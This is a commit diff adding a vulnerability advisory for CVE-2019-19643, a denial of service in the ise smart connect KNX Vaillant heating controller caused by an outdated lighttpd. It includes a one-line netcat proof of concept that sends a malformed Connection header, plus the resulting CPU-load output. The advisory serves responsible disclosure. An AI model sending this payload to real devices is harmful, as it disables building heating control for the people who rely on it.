

Before and after one commit to psytester/psytester.github.io, a Jekyll site: the page built from _posts/hacking_and_pentests/CVEs/2019-12-08-CVE-2019-19643.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown; grey boxes are pictures that could not be loaded.

Commit message:
CVE is out now

````diff
--- a/_posts/hacking_and_pentests/CVEs/2019-12-08-CVE-2019-19643.md
+++ b/_posts/hacking_and_pentests/CVEs/2019-12-08-CVE-2019-19643.md
@@ -1 +1,94 @@
-to be done in Q2/2020
+---
+layout: post
+title:  "CVE-2019-19643 ise smart connect KNX Vaillant 1.2.839 Denial of Service"
+date:   2020-08-12 21:10:00 MEST
+author: 'psytester'
+---
+
+# Overview
+
+- CVE: CVE-2019-19643
+- Author: psytester
+- Title: ise smart connect KNX Vaillant 1.2.839 Denial of Service
+- Vulnerability Type: CWE-400 Uncontrolled Resource Consumption
+-	CVSSv3 Base Score: 7.5
+-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
+- Publishing Date: 12.08.2020
+- Updated: --
+- Vendor: ise Individuelle Software und Elektronik GmbH
+- Product: ise Smart Connect KNX Vaillant
+- Vendor contacted: 26.11.2019
+- Vendor confirmation: 05.12.2019 with possible release date mid of 2020
+- Vendor patch: 2.0.607 since 10.08.2020
+- Vendor Reference: --
+- Affected Firmware version: 1.2.839 tested
+
+
+# Background
+
+Product overview on [vendor's website](https://www.ise.de/en/products/ise_smart_connect_KNX_Vaillant).<br>
+This device connects a Vaillant heater to KNX building automation and has a TCP/IP stack for its configuration.
+
+
+# Issue Description
+
+The analysis of the underlying operating system of the ise smart connect KNX Vaillant revealed that the BusyBox version v1.27.2 from 2017 with a Buildroot 2012.11.1 is installed as embedded Linux and that other outdated software packages are also used.
+
+Just to name a few:
+```
+Buildroot: 2012.11.1
+BusyBox: v1.27.2 from August 2017
+dropbear: 2012.55
+OpenSSL: 1.0.1c from May 2012
+lighttpd: 1.4.31
+....
+```
+
+After a search for already known CVE entries, the lighttpd process proved to be susceptible because of [CVE-2012-5533](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-5533=CVE-2012-5533).<br>
+
+This vulnerability can be exploited by unauthenticated attackers with access to the web interface:
+~~~shell
+echo -ne "GET / HTTP/1.1\r\nHost: 1.2.3.4\r\nConnection: TC,,Keep-Alive\r\n\r\n" | nc 1.2.3.4 80
+~~~
+After that the lighttpd is permanently in 99% CPU load and the ise smart connect KNX Vaillant does not react anymore because the resources are used up and we have a Denial of Service:
+```
+PID  PPID USER     STAT   VSZ %VSZ %CPU COMMAND
+  321     1 root     R     5548   2%  99% /usr/sbin/lighttpd -f /etc/lighttpd/lighttpd.conf
+```
+Just a restart of lighttpd process seems to be not enough to fix the overload condition, a reboot is required.
+
+There might be much more vulnerabilities, as written in my German [blog post](https://psytester.github.io/embedded_Linux_Busybox_Buildroot/) about outdated embedded Linux Busybox/Buildroot installations.
+
+# CVE
+
+[CVE-2019-19643](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19643)
+
+# CVSSv3 Base Score
+
+CVSSv3 Base Score: 7.5
+
+CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
+
+# lighttpd fix in new ise smart connect KNX Vaillant version 2.0.607
+Base software is partly updated now with
+```
+Buildroot: 2018.02
+BusyBox: v1.27.2 still from from August 2017
+dropbear: 2017.75
+OpenSSL: 1.0.2n from Dec 2017
+nginx: 1.12.2 is used instead of lighttpd
+```
+
+
+# Credit
+All researchers.<br>
+[cvedetails](https://www.cvedetails.com/) for scanning and preparing all CVEs, separated by vendor and product.<br>
+me, but I simply scanned known CVEs to use them.
+
+
+# Disclaimer
+
+The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
+In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.
+
+The contents of this advisory are copyright (c) 2020 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
````
